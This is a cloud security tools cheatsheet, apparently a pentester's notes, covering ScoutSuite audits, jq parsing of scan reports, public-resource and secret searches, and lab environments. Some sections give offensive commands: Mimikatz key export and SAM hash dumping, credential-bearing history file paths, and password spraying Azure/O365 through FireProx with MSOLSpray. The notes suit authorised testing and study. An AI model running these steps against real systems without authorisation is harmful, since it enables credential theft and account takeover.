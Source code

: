 ```yaml
---
layout: memory
title: Cloud Tools and Techniques Cheatsheet
---
```


## Other Useful Cloud Tools and Techniques Cheatsheet
### ScoutSuite

Multi-cloud security auditing tool

https://github.com/nccgroup/ScoutSuite

Install ScoutSuite

```bash
sudo apt-get install virtualenv
git clone https://github.com/nccgroup/ScoutSuite
cd ScoutSuite
virtualenv –p python3 venv
source venv/bin/activate
pip install –r requirements.txt
```

To run as root

```bash
sudo apt-get install virtualenv
sudo su
virtualenv -p python3 venv
source venv/bin/activate
pip install scoutsuite
```

Scan AWS environment with ScoutSuite

```bash
python scout.py aws --profile=<aws profile name>

or if installed...

scout aws --profile=<aws profile name>
```

### jq queries to help with parsing many ScoutSuite reports

Sometimes you may need to work with multiple ScoutSuite files and report similar items across all of them. The ScoutSuite reports are in json format so the 'jq' tool can be used to parse through them easily. Here are a few short script examples for doing this. Run these from the directory where you output each of the ScoutSuite folders to. 

#### AWS
```bash

### Find All Lambda Environment Variables
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.awslambda.regions[].functions[] | select (.env_variables != []) | .arn, .env_variables' >> lambda-all-environment-variables.txt
done

### Find World Listable S3 Buckets
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.account_id, .services.s3.findings."s3-bucket-AuthenticatedUsers-read".items[]'  >> s3-buckets-world-listable.txt
done

### Find All EC2 User Data
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].vpcs[].instances[] | select (.user_data != null) | .arn, .user_data'  >> ec2-instance-all-user-data.txt
done

### Find EC2 Security Groups That Whitelist AWS CIDRs
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.account_id' >> ec2-security-group-whitelists-aws-cidrs.txt
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.findings."ec2-security-group-whitelists-aws".items'  >> ec2-security-group-whitelists-aws-cidrs.txt
done

### Find EC2 EBS Public AMIs
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].images[] | select (.Public == true) | .arn' >> ec2-public-amis.txt
done

### Find All EC2 EBS Volumes Unencrypted
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].volumes[] | select(.Encrypted == false) | .arn' >> ec2-ebs-volume-not-encrypted.txt
done

### Find All EC2 EBS Snapshots Unencrypted
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].snapshots[] | select(.encrypted == false) | .arn' >> ec2-ebs-snapshot-not-encrypted.txt
done
```
#### Azure
```bash
### List All Azure App Service Host Names
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq -r '.services.appservice.subscriptions[].web_apps[].host_names[]'

### List All Azure SQL Servers
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq -jr '.services.sqldatabase.subscriptions[].servers[] | .name,".database.windows.net","\n"'

### List All Azure Virtual Machine Hostnames 
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq -jr '.services.virtualmachines.subscriptions[].instances[] | .name,".",.location,".cloudapp.windows.net","\n"'

### List Storage Accounts
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq -r '.services.storageaccounts.subscriptions[].storage_accounts[] | .name'

### List Storage and containers for mangle script
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq -r '.services.storageaccounts.subscriptions[].storage_accounts[] | .blob_containers_count,.name,.blob_containers[].id' > /root/Desktop/storage.txt

### List disks encrypted with PMKs
tail scoutsuite_results_azure-tenant-*.js -n +2 | jq '.services.virtualmachines.subscriptions[].disks[] | select(.encryption_type = "EncryptionAtRestWithPlatformKey") | .name' > disks-with-pmks.txt
```

### Custom jq Parsing Help
Sometimes json files are extremely large and can be difficult to parse through each level of child parameters. Using with_entries will help to only list direct child objects making it easier to navigate through a json file.
```bash
tail scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.cloudtrail | with_entries(select(.value | scalars))'
{
  "IncludeGlobalServiceEvents": true,
  "regions_count": 17,
  "trails_count": 34
}

tail scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.cloudtrail.regions[] | with_entries(select(.value | scalars))'
{
  "id": "ap-northeast-1",
  "name": "ap-northeast-1",
  "region": "ap-northeast-1",
  "trails_count": 2
}
{
  "id": "ap-northeast-2",
  "name": "ap-northeast-2",
  "region": "ap-northeast-2",
  "trails_count": 2
}
etc...
```

### Cloud_Enum

Tool to search for public resources in AWS, Azure, and GCP

https://github.com/initstring/cloud_enum

```bash
python3 cloud_enum.py -k <name-to-search>
```

### GitLeaks

Search repositories for secrets

https://github.com/zricethezav/gitleaks

Pull GitLeaks with Docker

```bash
sudo docker pull zricethezav/gitleaks
```

Print the help menu

```bash
sudo docker run --rm --name=gitleaks zricethezav/gitleaks --help
```

Use GitLeaks to search for secrets

```bash
sudo docker run --rm --name=gitleaks zricethezav/gitleaks -v -r <repo URL>
```

TruffleHog - https://github.com/dxa4481/truffleHog

Shhgit - https://github.com/eth0izzle/shhgit

Gitrob - https://github.com/michenriksen/gitrob

### Mimikatz

Export Non-Exportable Private Keys From Web Server

```textile
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

Dump passwords hashes from SAM/SYSTEM files

```textile
mimikatz# lsadump::sam /system:SYSTEM /sam:SAM
```

### Check Command History

Linux Bash History Location

```bash
~/.bash_history
```

Windows PowerShell PSReadLine Location

```bash
%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### PowerView

https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
Find on-prem ADConnect account name and server

```powershell
Get-NetUser -Filter "(samAccountName=MSOL_*)" |Select-Object name,description | fl
```

### FireProx

Password Spraying Azure/O365 while randomizing IPs with FireProx

Install

```bash
git clone https://github.com/ustayready/fireprox
cd fireprox
virtualenv -p python3 .
source bin/activate
pip install -r requirements.txt
python fire.py
```

Launch FireProx

```bash
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region <region> --url https://login.microsoft.com --command create
```

Password spray using FireProx + MSOLSpray

```powershell
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020 -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

### ip2Provider

Check a list of IP addresses against cloud provider IP space

https://github.com/oldrho/ip2provider

### Vulnerable Infrastructure Creation

Cloudgoat - https://github.com/RhinoSecurityLabs/cloudgoat

SadCloud - https://github.com/nccgroup/sadcloud

Flaws Cloud - http://flaws.cloud

Thunder CTF - http://thunder-ctf.cloud 
